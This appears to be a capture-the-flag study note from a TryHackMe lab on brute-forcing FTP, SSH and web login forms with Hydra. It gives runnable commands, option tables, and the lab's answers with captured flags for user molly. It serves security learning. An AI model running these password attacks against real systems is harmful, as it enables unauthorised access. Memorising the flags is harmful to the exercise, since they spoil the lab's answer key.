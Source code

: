 #penetration-test #cybersecurity 

`hydra -l user -P passlist.txt ftp://10.10.139.97`

### SSH

`hydra -l <username> -P <full path to pass> 10.10.139.97 -t 4 ssh`

|Option|Description|
|---|---|
|`-l`|specifies the (SSH) username for login|
|`-P`|indicates a list of passwords|
|`-t`|sets the number of threads to spawn|

#### Example
`hydra -l root -P passwords.txt 10.10.139.97 -t 4 ssh`


### Post Web Form
We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

`sudo hydra <username> <wordlist> 10.10.139.97 http-post-form "<path>:<login_credentials>:<invalid_response>"`

|Option|Description|
|---|---|
|`-l`|the username for (web form) login|
|`-P`|the password list to use|
|`http-post-form`|the type of the form is POST|
|`<path>`|the login page URL, for example, `login.php`|
|`<login_credentials>`|the username and password used to log in, for example, `username=^USER^&password=^PASS^`|
|`<invalid_response>`|part of the response when the login fails|
|`-V`|verbose output for every attempt|

#### Example
`hydra -l <username> -P <wordlist> 10.10.139.97 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


### Questions

**Use Hydra to bruteforce molly's web password. What is flag 1?**
`sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz 10.10.139.97 http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect" -V
 THM{2673a7dd116de68e85c48ec0b1f2612e}

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**
`sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz 10.10.139.97 -t 4 ssh`
THM{c8eeb0468febbadea859baeb33b2541b}

